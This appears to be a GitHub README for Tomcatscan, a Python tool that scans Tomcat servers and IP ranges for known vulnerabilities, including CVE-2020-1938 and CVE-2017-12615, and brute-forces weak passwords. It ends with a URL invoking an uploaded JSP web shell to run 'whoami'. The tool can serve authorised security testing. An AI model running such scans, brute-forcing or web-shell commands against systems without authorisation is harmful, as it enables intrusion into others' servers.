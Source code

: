 # Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测以及弱口令检测，同时会检测8009端口cve-2020-1938漏洞

![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/1.png)

python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测


python TomcatScan.py -f url.txt

#-f 参数 文件中ip的几种格式：
```
http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938

http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

https://192.168.1.1         ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938
```

弱口令检测请在dict目录添加用户名密码字典


cve-2017-12615 shell利用：访问并执行命令
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/2.png)
```
http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami
```

